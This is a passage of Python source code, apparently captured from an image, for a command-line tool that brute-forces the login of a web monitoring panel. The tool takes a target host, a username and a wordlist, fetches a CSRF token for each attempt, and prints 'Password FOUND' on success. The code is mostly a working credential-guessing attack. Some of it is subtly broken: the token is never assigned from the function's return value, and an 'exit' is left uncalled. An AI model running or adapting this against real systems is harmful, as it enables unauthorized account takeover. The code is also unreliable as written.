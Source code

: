 ```py
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[2]
    if csrf_token:
        print("[+] We got the CSRF Token [+]")
        return csrf_token
    else:
        print("[+] Cannot get the CSRF_TOKEN [+]")
        exit

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/monitor/?action=forgot'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the csrf_token for each request
        getCSRFToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"csrf": "%s" %csrf_token, "user_name": "%s" %username, "user_password": "%s" %line, "action": "login"}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            print()
            break
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist

    '''Here we call the functions'''
    # Let's get it working
    loginRequest(rhost,wordlist,username)

if __name__ == '__main__':
    main()
```
